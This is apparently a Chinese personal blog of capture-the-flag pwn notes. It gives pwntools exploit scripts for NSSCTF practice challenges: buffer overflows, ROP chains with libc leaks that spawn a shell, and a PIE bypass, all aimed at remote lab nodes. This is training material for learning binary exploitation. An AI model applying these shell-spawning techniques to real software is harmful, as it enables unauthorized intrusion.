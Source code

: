```yaml
---
title: 'NSSCTF_pwn_刷题笔记page'
date: 2024-03-16 13:00:00 +0800
categories: [ctf,pwn]
tags: [合集]
---
```

# NSSCTF_pwn_刷题笔记page(1)

### [SWPUCTF 2021 新生赛]gift_pwn

```python
from pwn import *
io = remote('node4.anna.nssctf.cn',28991)
padding = 16+8
shell = 0x4005B6

payload = b'A'*padding+p64(shell)
io.sendline(payload)

io.interactive()
```

### [SWPUCTF 2021 新生赛]whitegive_pwn

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28982)
#io = gdb.debug('./附件')
elf = ELF('./附件')
padding = 16+8
pop_rdi = 0x0000000000400763

payload = b'A'*padding + p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])

io.sendline(payload)

puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

base_offset = puts_addr - 0x06f6a0
sys = 0x0453a0+base_offset
bin_sh = 0x18ce57+base_offset


payload1 = b'A'*padding+p64(pop_rdi)+p64(bin_sh)+p64(sys)
io.sendline(payload1)

io.interactive()
```

libc版本要另外搜索

###[CISCN 2019华北]PWN1

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 44
payload =b'A'*padding+p64(0x41348000)
io.sendlineafter(b'number.',payload)
io.interactive()
```

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 56
payload =b'A'*padding+p64(0x4006be)
io.sendlineafter(b'number.',payload)
io.interactive()
```

### [NISACTF 2022]ReorPwn?

```shell
hs/nib/
```

### [BJDCTF 2020]babystack2.0

```python
from pwn import *
context.log_level = 'debug'
#io = process('./pwn')
#io = gdb.debug('./pwn')
io = remote('node4.anna.nssctf.cn',28485)
padding = 12+8+4
payload = b'A'*padding+p64(0x400726)

io.sendlineafter('name:\n',b'-1')

io.sendlineafter('name?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [HNCTF 2022 Week1]easync

`nc`进去找,格式为nssctf{}

### [BJDCTF 2020]babystack

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ret2text')
#io = gdb.debug('./ret2text')
io = remote('node4.anna.nssctf.cn',28587)
padding = 12+8+4
payload = b'A'*padding+p64(0x4006e6)

io.sendlineafter('name:\n',b'100')

io.sendlineafter('?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [SWPUCTF 2022 新生赛]Does your nc work？

`nc`进去找

### [NISACTF 2022]ezstack

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28318)
elf = ELF('./pwn')
padding = 72+4

payload = b'A'*padding + p32(0x8048512)+p32(0x804A024)

io.sendline(payload)
io.interactive()
```

`32`位程序调用函数方法与`64`位不同

### [watevrCTF 2019]Voting Machine 1

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28007)
payload = b'A'*padding + p64(0x400807)

io.sendline(payload)
io.recvall()
io.interactive()
```

有后门函数...

### [NISACTF 2022]ezpie

```python
from pwn import *

#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28323)
padding = 44

io.recvuntil(b'gift!\n')
main_addr = eval(io.recvline().decode())
base_offset = main_addr - 0x770
shell_addr = base_offset+0x80F

payload = b'A'*padding +p32(shell_addr)

io.sendline(payload)
io.interactive()
```

主要是`pie`机制,和泄露`lib`差不多的思路

### [HGAME 2023 week1]test_nc

```shell
cat flag
```

### [GFCTF 2021]where_is_shell

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`,`tips`函数中提供了相应的机器码,又一个小知识点

### [HNCTF 2022 Week1]easyoverflow

```shell
1111111111111111111111111111111111111111111111111111
```

参数覆盖,溢出`v4`覆盖`v5`
